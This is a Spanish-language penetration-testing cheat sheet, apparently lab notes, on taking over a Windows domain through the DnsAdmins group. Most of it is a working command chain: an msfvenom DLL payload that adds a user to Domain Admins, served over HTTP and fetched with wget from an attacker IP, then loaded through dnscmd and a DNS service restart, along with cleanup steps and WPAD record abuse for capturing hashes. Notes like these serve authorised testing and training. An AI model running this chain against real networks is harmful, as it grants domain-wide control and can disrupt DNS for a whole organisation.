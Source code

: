 # 🛡️ Elevación de privilegios vía DnsAdmins en Windows

## 🧠 ¿Qué es DnsAdmins?

El grupo **DnsAdmins** permite administrar el servicio DNS en un entorno Windows. Este servicio corre como **NT AUTHORITY\SYSTEM**, por lo que **miembros de este grupo pueden escalar privilegios** si el servidor DNS está mal configurado.

---

## 🚀 Vector de ataque

### 1. Crear una DLL maliciosa
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

### 2. Servir la DLL con HTTP
```bash
python3 -m http.server 7777
```

### 3. Descargar la DLL en el servidor DNS
```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

### 4. Establecer la DLL como plugin del servicio DNS
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

**IMPORTANTE:** PONER LA RUTA ABSOLUTA AL adduser.dll

### 5. Verificar pertenencia al grupo DnsAdmins
```powershell
Get-ADGroupMember -Identity DnsAdmins
```

---

## 🔄 Reinicio del servicio DNS

### Obtener el SID del usuario

First, we need our user's SID.

```cmd
wmic useraccount where name="netadm" get sid
```

output: 
S-1-5-21-669053619-2741956077-1013132368-1109

```
### Ver permisos del servicio DNS

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

```cmd
sc sdshow DNS
```

output: 

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)**(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:**(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)

En esta entrada vemos que está el SID de nuestro usuario:
(A;;RPWP;;;S-1-5-21-...-1109)
Esto significa que:
- `A` → Allow (permitir)
    
- `RP` → Read Property
    
- `WP` → Write Property
    
- `S-1-5-21-...` → SID de un usuario

Ese usuario (SID) tiene permisos de lectura y escritura sobre el servicio DNS, y además coincide que es nuestro SID por lo que nosotros tenemos esos permisos.


```

### Detener y reiniciar DNS (si tienes permisos)
```cmd
sc stop dns
sc start dns
```

---

## 🧾 Confirmar ejecución

Verifica si el usuario fue añadido:
```cmd
net group "Domain Admins" /domain
```
NOTA: Para que se apliquen los cambios hay que iniciar sesión de nuevo, para deslogear usar `shutdown /l`

---

## 🧹 Limpieza

### Ver clave del registro establecida
```cmd
reg query \<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

### Eliminar clave
```cmd
	reg delete \<IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

### Reiniciar servicio DNS
```cmd
sc start dns
```

---

## 🧨 Abuso con WPAD

### Desactivar bloque global
```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

### Añadir registro WPAD
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

Esto permite hacer ataques de proxy (Responder, Inveigh) para capturar hashes y realizar SMBRelay.

---

## ⚠️ Nota final

Este ataque es **destructivo y peligroso**: modificar el servicio DNS en un controlador de dominio puede romper toda la red. **Solo se debe realizar con permiso explícito del cliente** y documentar la limpieza post-explotación.

